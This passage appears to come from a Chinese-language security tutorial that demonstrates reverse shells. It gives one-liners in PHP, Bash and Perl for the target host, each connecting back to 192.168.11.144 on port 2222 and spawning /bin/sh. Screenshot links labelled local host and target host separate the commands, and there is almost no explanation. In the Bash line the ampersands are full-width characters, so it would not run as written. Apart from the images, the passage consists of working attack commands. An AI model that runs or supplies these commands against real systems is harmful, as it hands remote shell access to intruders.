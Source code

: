 本地主机

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/15237917421331.png!small" />](https://image.3001.net/images/20180415/15237917421331.png)

目标主机

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="目标主机" width="690" data-original="https://image.3001.net/images/20180415/15237917644515.png!small" />](https://image.3001.net/images/20180415/15237917644515.png)

**PHP反向shell**

目标主机端执行语句：

{% raw %}
```
`php -r '$sock=fsockopen("192.168.11.144",2222);exec("/bin/sh -i <&3 >&3 2>&3");'`
```
{% endraw %}

本地主机：

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/15237915077315.png!small" />](https://image.3001.net/images/20180415/15237915077315.png)

目标主机：

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="目标主机" width="690" data-original="https://image.3001.net/images/20180415/15237914595773.png!small" />](https://image.3001.net/images/20180415/15237914595773.png)

**Bash反向shell**

目标主机端执行语句：

{% raw %}
```
`bash -i>＆/dev/tcp/192.168.11.144/2222 0>＆1`
```
{% endraw %}

本地主机：

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/15237907578683.png!small" />](https://image.3001.net/images/20180415/15237907578683.png)

目标主机：

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="目标主机" width="690" data-original="https://image.3001.net/images/20180415/15237907722944.png!small" />](https://image.3001.net/images/20180415/15237907722944.png)

**Perl反向shell**

目标主机端执行语句：

{% raw %}
```
`perl -e 'use Socket;$i="192.168.11.144";$p=2222;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```
{% endraw %}

本地主机

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/15237912521506.png!small" />](https://image.3001.net/images/20180415/15237912521506.png)
